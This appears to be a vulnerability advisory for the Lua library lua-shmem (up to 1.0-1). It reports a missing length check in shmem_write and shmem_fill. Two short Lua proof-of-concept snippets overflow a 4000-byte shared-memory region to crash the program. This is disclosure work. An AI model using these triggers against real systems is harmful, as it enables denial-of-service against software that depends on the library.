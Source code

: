 

## The third-party Lua library "lua-shmem" has a buffer overflow vulnerability.

Affected product: lua-shmem <= 1.0-1

### Product Information

project: https://luarocks.org/modules/engin33r/lua-shmem/1.0-1

source code: https://github.com/EngiN33R/lua-shmem

Lua-shmem is a Low-level Lua convenience wrapper for IPC shared memory functionality. Wraps calls to mmap/munmap to create and free shared memory, and memset/memcpy calls to write and clear the shared memory area.

### Vulnerability Description

buffer overflow in https://github.com/EngiN33R/lua-shmem/blob/master/src/shmem.c

vuln function: `shmem_write`，`shmem_fill`

The function does not check if the length of `data` exceeds the size of `shmem_ud->memory`. If the length of `data` is greater than the size of `shmem_ud->memory`, it will lead to a buffer overflow.

![1](img/1.png)

### Verify

When users utilize this library for memory operations, it may potentially lead to a buffer overflow vulnerability, thereby resulting in a denial-of-service condition in the program.

The following content is a typical case:

```
local shmem = require("shmem")
local mem = shmem.new(4000)
print("test")
mem:fill(string.rep("A", 4100))
print("test")
```

![2](img/2.png)



```
local shmem = require("shmem")
local mem = shmem.new(4000)
print("test")
mem:write(string.rep("A", 4100))
print("test")
```

![3](img/3.png)